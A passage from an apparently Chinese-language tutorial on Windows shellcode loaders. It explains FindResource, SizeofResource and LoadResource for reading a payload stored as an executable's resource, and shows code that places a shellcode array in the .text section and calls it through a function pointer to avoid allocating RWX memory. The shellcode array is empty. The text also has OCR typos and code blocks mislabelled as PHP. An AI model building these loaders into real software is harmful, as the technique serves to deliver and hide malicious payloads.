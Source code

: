 **2、SizeofResource：表示该函数返回指定资源的字节数大小。**

```php
DWORD SizeofResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

- hModule：包合资源的可执行文件模块的句柄。
- hReslnfo：资源句柄。此句柄必须由函数FindResource或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)来创建。

```php
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
```

**3、LoadResource：装载指定资源到全局存储器**

```php
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

- hModule：处理包合资源的可执行文件的模块句柄。若hModule为NULL，系统从当前过程中的模块中装载资源。
- hReslnfo：将被装载资源的句柄。它必须由函数[FindResource](https://baike.baidu.com/item/FindResource/6375062) \[1\] 或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)创建。

```php
HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
```

下面是完整的源码

```php
DWORD oldProtect;
BOOL pt;
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
//找到shellcode资源，获取它的资源句柄
//它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
//读取其中的数据
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
//读取数据⻓度，开辟内存空间读⼊，获得该空间指针
```

#### 4.无API加载shellcode

我们希望我们的shellcode被分配在可执行文件的.text部分中，这样就不需要分配RWX内存块来存储shellcode。此外，  
我们需要将shellcode数组强制转换为函数指针并调用它-

```php
#pragma section(".text")

__declspec(allocate(".text")) char goodcode[] = {  };

int main()
{
    //(*(void(*)())(&goodcode))();
    ((void(*)())(&goodcode))();
}
```
